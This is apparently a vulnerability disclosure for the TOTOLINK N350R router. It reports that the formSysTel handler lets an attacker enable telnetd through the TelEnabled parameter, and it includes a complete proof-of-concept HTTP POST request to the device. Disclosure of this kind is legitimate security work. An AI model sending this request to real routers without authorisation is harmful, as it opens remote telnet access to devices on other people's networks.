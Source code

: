### Overview

- Vendor : TOTOLINK
- Product : N350R
- Version : TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826_1_2701_ALL_0.web

### Vulnerability details

In `formSysTel` function, attackers can control the parameter`TelEnabled` to launch telnetd service.

![](./images/1.png)

![](./images/2.png)

### PoC

```
POST /boafrm/formSysTel HTTP/1.1
Host: 192.168.0.1
Content-Length: 64
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/sys_tel.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

submit-url=%2Fsys_tel.htm&TelEnabled=ON&Apply=%E5%BA%94%E7%94%A8
```
